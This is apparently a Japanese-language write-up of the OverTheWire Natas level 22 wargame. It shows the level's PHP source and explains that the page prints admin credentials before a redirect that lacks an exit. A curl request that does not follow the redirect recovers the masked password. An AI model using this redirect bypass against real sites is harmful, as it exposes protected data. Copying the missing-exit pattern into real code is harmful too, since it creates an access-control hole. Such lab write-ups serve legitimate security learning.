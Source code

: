 ![](img/natas22-1.png)  


何もない。  

ソースコードを見てみる。  

```
 <?php
session_start();

if(array_key_exists("revelio", $_GET)) {
    // only admins can reveal the password
    if(!($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1)) {
    header("Location: /");
    }
}
?>


<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas22", "pass": "<censored>" };</script></head>
<body>
<h1>natas22</h1>
<div id="content">

<?php
    if(array_key_exists("revelio", $_GET)) {
    print "You are an admin. The credentials for the next level are:<br>";
    print "<pre>Username: natas23\n";
    print "Password: <censored></pre>";
    }
?>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

注目する箇所は2つ  

```
 <?php
session_start();

if(array_key_exists("revelio", $_GET)) {
    // only admins can reveal the password
    if(!($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1)) {
    header("Location: /");
    }
}
?>
```

ここと、  
```
<?php
    if(array_key_exists("revelio", $_GET)) {
    print "You are an admin. The credentials for the next level are:<br>";
    print "<pre>Username: natas23\n";
    print "Password: <censored></pre>";
    }
?>
```

ここ。  

GETパラメータでrevelioパラメータを指定するとflagが表示されるが、  
`$_SESSION["admin"] == 1`でなければリダイレクトされてしまう。  

ブラウザからrevelioパラメータを指定してリクエストを送ると裏ではflagが表示されると同時にリダイレクトされ見られない。  
開発者モードのdebugから処理を停止するという方法もあるが`curl`を使用する。  

`curl -u natas22:password http://natas22.natas.labs.overthewire.org/?revelio`  

すると以下のようなレスポンスが返ってきてflagが得られる。  

```
<body>
<h1>natas22</h1>
<div id="content">

You are an admin. The credentials for the next level are:<br><pre>Username: natas23
Password: ****************************</pre>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
```




